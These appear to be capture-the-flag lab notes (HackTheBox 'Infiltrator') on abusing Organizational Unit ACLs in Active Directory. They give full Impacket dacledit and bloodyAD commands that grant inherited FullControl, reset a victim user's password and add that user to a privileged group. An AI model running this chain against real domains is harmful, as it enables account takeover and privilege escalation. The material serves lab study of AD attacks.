

https://www.synacktiv.com/en/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory


## Organizational Unit

#### Control of the Organization Unit

With full control of the OU, you may add a new ACE on the OU that will inherit down to the objects under that OU. Below are two options depending on how targeted you choose to be in this step:




#### Generic Descendent Object Takeover

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU that will inherit down to all object types. This can be done using Impacket's dacledit (cf. "grant rights" reference for the link).

```
└─# impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'D.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb'/'D.anderson' -k -no-pass -dc-ip 10.10.11.31

Now, the "d.anderson" user will have full control of Marketing Digital OU.
```


As, the next victim user which is on this OU, we can have full access over it too.

```
└─# impacket-dacledit -action 'write' -principal 'D.anderson' -target-dn 'CN=E.RODRIGUEZ,OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb'/'D.anderson' -k -no-pass -dc-ip 10.10.11.31

After we own this OU, can modify other group , user objets in this OU.

bloodyAD.py -d infiltrator.htb -u d.anderson -k --host DC01.infiltrator.htb set password 'e.rodriguez' 'WAT?watismypass!' 


bloodyAD.py -d infiltrator.htb -u e.rodriguez -p 'WAT?watismypass!' --host DC01.infiltrator.htb add groupMember "CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB" "e.rodriguez"

```


